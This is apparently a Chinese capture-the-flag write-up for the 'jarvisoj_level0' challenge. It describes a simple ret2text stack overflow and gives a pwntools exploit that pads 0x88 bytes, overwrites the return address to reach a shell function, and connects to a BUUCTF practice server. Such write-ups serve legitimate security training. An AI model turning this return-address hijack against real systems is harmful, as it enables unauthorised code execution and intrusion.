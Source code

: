 ```yaml
---
title: "jarvisoj_levelo"
description: ""
date: 2023-04-06T19:14:38+08:00
lastmod: 2023-04-06T19:14:38+08:00
draft: false
images: []
type: docs
weight: 998
toc: true
---
```


## 0x01 分析

![fed3eaa144287a208a711c47c17d2456](images/fed3eaa144287a208a711c47c17d2456.png)  

并且程序存在直接getshell的函数

![012323d7e8428904411f61afc9f05c2c](images/012323d7e8428904411f61afc9f05c2c.png)  

简单的ret2text类型

## 0x02 Exploit

```python
from pwn import*
o = remote('node4.buuoj.cn', 27978)
payload = b'a'*0x88 + p64(0x400596)
o.sendline(payload)
o.interactive() 
```

![dedff31f40f92a167436355d83188f17](images/dedff31f40f92a167436355d83188f17.png)  

自行调试分析
